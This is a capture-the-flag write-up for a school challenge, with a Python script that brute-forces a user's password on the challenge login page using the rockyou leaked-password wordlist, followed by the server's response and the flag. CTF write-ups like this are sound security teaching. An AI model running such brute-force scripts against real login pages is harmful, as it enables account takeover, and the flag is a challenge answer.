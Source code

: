 # Lost my password (200)
#### crypto - [Louisa County High School](../main.md)

## Challenge description:
> Hello, my name is John. I have lost my password. See if you can help me get into my account. Don't forget to checkout the attached login.php. My username is jjohnson.
>
> http://ctf-id-3.lcps.k12.va.us/login.php
> 
> Download file: [lostmypassword.php](../assets/lostmypassword.php)

## Solution 
We are given another login page and told to login as the user `jjohnson`. Last time, logging as the admin provided a hint. This time, if we try admin/admin, we see:

```
All hail the admin!!

jjohnson is the one who needs help.


Louisa County Public Schools CTF Brute Force Attack.
```
Now that we know it's brute force, we can write a script.
```py
import requests
from tqdm import tqdm
import sys

with open(sys.argv[1], "r") as f:
    words = f.readlines()

words = [word.strip() for word in words]

for w in tqdm(words):
    data = {"uid": "jjohnson", "password": w}
    response = requests.post("http://ctf-id-3.lcps.k12.va.us/login.php", data=data)
    if "ctf{" in str(response.text).lower():
        print(response.text)
    else:
        pass
```
This iterates through every word in a given wordlist and attempts to pass it in as the password of jjohnson. I started with [rockyou-20](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Leaked-Databases/rockyou-20.txt).

```
$ python bruteforce.py /usr/share/seclists/Passwords/Leaked-Databases/rockyou-20.txt
<html lang="en"><head><meta http-equiv="Content-Type" content="text/html; charset=UTF-8">
    <title>Home Page - Simple Login Page with SQL Injection</title>

    <link href="css/htmlstyles.css" rel="stylesheet">
	</head>

  <body>
  <div class="container-narrow">
		
		<div class="jumbotron">
			<p class="lead" style="color:white">
				Welcome John The Ripper!! You are now logged in!</a>
			</p>
						
			
			
        </div>
		
	  <div class="footer">
		<p><h4><a href="logout.php">Logout</a><h4> </p>
      </div>
	  
	  </br>
	  <p class="lead" style="color:black">
				 <h2>Congratulations!!! You did it!!!</h2> </br></br> The Flag is: *********************  .</a>
			</p>
			</br>
	  
	  
	  
	  <div class="footer">
		<p>Louisa County Public Schools CTF Brute Force Attack.</p>
      </div>

	</div> <!-- /container -->
  
</body>
</html>
```

<details> 
    <summary>Flag</summary>
CTF{BFhasPaidOff2022}</details>